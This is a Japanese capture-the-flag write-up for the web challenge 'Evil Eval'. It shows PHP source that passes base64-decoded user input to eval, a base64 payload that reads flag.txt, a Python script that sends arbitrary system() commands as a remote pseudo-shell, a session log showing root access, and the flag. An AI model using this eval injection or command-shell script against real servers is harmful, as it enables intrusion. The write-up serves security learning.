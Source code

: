 # Evil Eval:Web:86pts
シーザー暗号の次は, base64をデコードするページを実装したらしい。  
とはいえ, この実装ってあまり良くないんじゃ......  
flag.txtが同じディレクトリにあるらしいから, それを読みだしてこの実装の危険性を教えてあげて。  
[http://34.82.49.144:3337/](http://34.82.49.144:3337/)  
[show.php](show.php)  

# Solution
URLにアクセスするとbase64をデコードしてくれるサイトのようだ。  
base64 decoder  
[site.png](site/site.png)  
`U2F0b2tp`を入力すると`http://34.82.49.144:3337/show.php?data=U2F0b2tp`へリダイレクトし、以下のエラーと結果が表示された。  
![error.png](images/error.png)  
evalを呼んでいるらしい。  
ソースが配布されているので見ると、以下のようになっている。  
```php
<?php
$result = "";
    if (isset($_GET['data'])) {
        $data = $_GET['data'];
        $raw = base64_decode($data);
        eval('$result = ' . $raw . ';');
    }
?>
<html>
<head>
    <meta charset="utf-8">
    <title>result</title>
</head>
<body>
    <h1>結果</h1>
    <p><?= $result ?></p>
</body>
</html>
```
eval内でflag.txtを読み出してやればよい。  
`fgets(fopen('flag.txt','r'))`をbase64エンコードした`ZmdldHMoZm9wZW4oJ2ZsYWcudHh0JywncicpKQ==`を渡す。  
flag  
[flag.png](site/flag.png)  
flagが表示された。  
別解としては、`http://34.82.49.144:3337/flag.txt`にアクセスしてもflagが見えていた。  
1st bloodで暇だったので、以下のように疑似シェルを作ってflag.txtを読み出してみた。  
```python:satokishell.py
# -*- coding: utf-8 -*-
import requests
import base64
import re

while True:
    cmd = input("(>3<)$ ").encode("utf-8")
    data = base64.b64encode(b"system('"+cmd+b"')").decode("utf-8")
    res = requests.get("http://34.82.49.144:3337/show.php?data="+data)
    res = re.sub("<html>\n<head>\n<meta charset=\"utf-8\">\n<title>result</title>\n</head>\n<body>\n<h1>結果</h1>\n<p>.*</p>\n</body>\n</html>", "", res.text)
    res = (res+"\n").replace("\n\n", "\n")
    print(res, end="")
```
実行する。  
```bash
$ ls
satokishell.py
$ python satokishell.py
(>3<)$ ls
flag.txt
index.php
show.php
(>3<)$ cat flag.txt
taskctf{eval_1s_b4d_h4bit}
(>3<)$ uname -a
Linux 1f2f79acd76f 4.19.0-12-cloud-amd64 #1 SMP Debian 4.19.152-1 (2020-10-18) x86_64 GNU/Linux
(>3<)$ whoami
root
```
rootだった(゜Д゜)。  

## taskctf{eval_1s_b4d_h4bit}